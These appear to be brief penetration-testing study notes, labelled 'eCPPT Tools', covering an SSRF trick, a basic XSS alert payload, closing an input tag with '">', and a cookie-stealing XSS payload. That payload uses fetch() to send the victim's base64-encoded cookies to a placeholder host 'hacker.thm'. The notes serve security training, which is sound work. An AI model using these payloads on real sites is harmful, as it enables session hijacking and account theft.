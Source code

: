 ## eCPPT Tools


SSRF Example

```
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string. Next
```

XSS Example

```
<script>alert('XSS');</script>

```

Cookie stealing
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

```

Closign the input tag
```
The important part of the payload is the "> which closes the value parameter and then closes the input tag.

```

